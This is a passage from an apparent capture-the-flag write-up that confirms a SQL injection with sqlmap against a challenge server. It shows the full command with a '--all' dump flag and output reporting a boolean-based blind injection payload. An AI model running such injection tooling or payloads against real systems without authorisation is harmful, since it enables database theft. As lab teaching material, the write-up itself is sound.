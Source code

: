 ![](../../zzz_res/attachments/ElfResources6.png)

Verified the SQL Injection also with sqlmap:

```bash
$ sqlmap http://challs.htsp.ro:13001/2 --current-db --proxy http://127.0.0.1:8080 --all --batch
...
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://challs.htsp.ro:13001/2 AND 6613=6613
---
...
```

![](../../zzz_res/attachments/ElfResources10.png)

